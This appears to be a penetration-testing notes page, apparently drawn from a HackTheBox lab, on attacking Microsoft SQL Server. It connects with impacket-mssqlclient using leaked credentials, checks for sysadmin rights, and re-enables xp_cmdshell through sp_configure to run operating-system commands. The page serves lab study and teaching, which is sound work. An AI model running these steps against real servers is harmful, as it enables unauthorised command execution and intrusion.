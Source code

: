 # MS-SQL (Microsoft SQL Service)

## Enumeration

### Using Impacket&#x20;

Using impacket-mssqlclient we can connect to the MS-SQL service using the username/user-id and password from a possible publicly available production `.dtsConfig` files.&#x20;

```awk
impacket-mssqlclient ARCHETYPE\sql_svc@10.129.95.187 -windows-auth
```

### Check user access control

```
SELECT is_srvrolemember('sysadmin');
```

If it returns 1, it is True and the user can run cmd commands.



## Exploitation

### Command execution via xp\_cmdshell()

Once we have access to the SQL database we can check if we can use the command using:

```sql
 EXEC xp_cmdshell 'net user';
```

If we get the following result, we don't have access to the command and we need to reconfigure the service:

{% code overflow="wrap" %}
```bash
[-] ERROR(ARCHETYPE): Line 1: SQL Server blocked access to procedure 'sys.xp_cmdshell' of component 'xp_cmdshell' because this component is turned off as part of the security configuration for this server. A system administrator can enable the use of 'xp_cmdshell' by using sp_configure. For more information about enabling 'xp_cmdshell', search for 'xp_cmdshell' in SQL Server Books Online.
```
{% endcode %}

**Reconfiguration steps**

* Set the show advanced options to TRUE.&#x20;

```sql
EXEC sp_configure 'show advanced options', 1;
```

* Reconfigure using the RECONFIGURE command.

```sql
RECONFIGURE;
```

* Check if sp\_configure is working with advanced options

```
sp_configure;
```

* Allow xp\_cmdshell using the command:

```sql
EXEC sp_configure 'xp_cmdshell', 1;
```

* Run reconfigure again to allow the xp\_cmdshell method. Test if its working or not using the above diagnosis command.
*



